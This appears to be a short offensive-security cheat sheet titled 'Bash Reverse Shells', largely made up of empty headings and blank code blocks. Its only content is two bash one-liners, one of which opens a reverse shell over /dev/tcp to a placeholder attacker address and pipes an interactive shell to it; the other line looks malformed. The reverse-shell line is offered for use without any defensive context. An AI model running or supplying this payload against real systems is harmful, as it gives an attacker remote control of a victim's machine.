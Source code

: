 # Bash Reverse Shells

```
exec /bin/bash 0&0 2>&0

0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```
